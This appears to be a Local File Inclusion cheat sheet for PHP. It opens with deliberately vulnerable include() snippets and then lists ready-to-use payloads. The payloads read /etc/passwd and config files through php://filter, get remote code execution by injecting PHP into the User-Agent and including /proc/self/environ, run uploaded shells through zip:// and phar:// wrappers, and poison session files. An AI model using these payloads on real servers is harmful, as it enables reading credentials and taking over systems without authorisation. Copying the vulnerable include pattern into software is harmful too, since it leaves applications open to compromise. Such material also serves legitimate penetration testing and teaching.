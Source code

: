 ## Introduction

Brought from [Wikipedia](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#Local_File_Inclusion), Local File Inclusion (LFI) is similar to a Remote File Inclusion vulnerability except instead of including remote files, only local files i.e. files on the current server can be included for execution.

For instance:

```php
include $_GET['file'];
```

or harder one,

```php
include $_GET['file'] . ".php";
```

## Tricks

### Direct Local File Inclusion

- Reading arbitrary files:
    * `index.php?file=/etc/passwd`
    * `index.php?file=php://filter/convert.base64-encode/resource=config.php`

- Remote code exection:
    * /proc/self/environ
        ```
        GET /index.php?file=/proc/self/environ&cmd=id HTTP/1.1
        Host: www.site.com
        User-Agent: <?php echo assert($_GET['cmd']);?>
        ```
    * Zip and Phar wrappers
        - `index.php?file=zip://image.zip#shell.php`
        - `index.php?file=phar://image.phar/shell.php`

    * Session Files
        - PHP5 stores session files in `/var/lib/php5/sess_*`
            ```
            Cookie: PHPSESSID=123php # /var/lib/php5/sess_123php
            index.php?file=/var/lib/php5/sess_123php
            ```

### Indirect Local File Inclusion

- Reading arbitrary files:
    * `index.php?file=php://filter/convert.base64-encode/resource=config # will append ".php" at the end`

- Remote code exection:
    * Zip and Phar wrappers
        - `index.php?file=zip://image.zip#shell`
        - `index.php?file=phar://image.phar/shell`
    * Session Files
        - PHP5 stores session files in `/var/lib/php5/sess_*`
            ```
            Cookie: PHPSESSID=123php # /var/lib/php5/sess_123php
            index.php?file=/var/lib/php5/sess_123
            ```
### Research
https://dustri.org/b/files/PHP_LFI_rfc1867_temporary_files.pdf - Gynvael LFI to RCE via /tmp + phpinfo
https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf - further research on Gynvael method
https://dustri.org/b/from-lfi-to-rce-in-php.html - More current method

https://highon.coffee/blog/lfi-cheat-sheet/#php-wrapper-phpfile - LFI cheat sheet
